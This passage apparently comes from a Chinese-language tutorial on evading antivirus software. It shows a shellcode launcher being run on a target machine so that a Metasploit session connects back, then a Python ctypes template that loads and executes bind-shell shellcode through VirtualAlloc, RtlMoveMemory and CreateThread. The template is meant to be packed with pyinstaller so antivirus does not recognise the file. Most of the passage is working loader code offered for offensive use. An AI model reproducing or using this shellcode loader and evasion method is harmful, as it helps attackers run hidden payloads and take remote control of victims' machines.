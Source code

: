 靶机执行

```bash
shellcode_launcher.exe -i test.c
```

msf监听正常上线

### csc和InstallUtil

不再赘述，参考上文白加黑

## 偏僻语言

实际上也不能说偏僻语言，原理是让杀软不识别文件的pe头。我们在这说两种

### pyinstaller

py版的shellcode模板

```python
#! /usr/bin/env python
# encoding:utf-8

import ctypes

def execute():
    ## Bind shell
    shellcode = bytearray(
    "\xbe\x24\x6e\x0c\x71\xda\xc8\xd9\x74\x24\xf4\x5b\x29"
        ...
    "\x37\xa5\x48\xea\x47\xf6\x81\x90\x07\xc6\x62\x9a\x56"
    "\x13"
     )

    ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0),
    ctypes.c_int(len(shellcode)),
    ctypes.c_int(0x3000),
    ctypes.c_int(0x40))

    buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)

    ctypes.windll.kernel32.RtlMoveMemory(ctypes.c_int(ptr),
    buf,
    ctypes.c_int(len(shellcode)))

    ht = ctypes.windll.kernel32.CreateThread(ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.c_int(ptr),
    ctypes.c_int(0),
    ctypes.c_int(0),
    ctypes.pointer(ctypes.c_int(0)))

    ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(ht),
    ctypes.c_int(-1))
if __name__ == "__main__":
    execute()
```
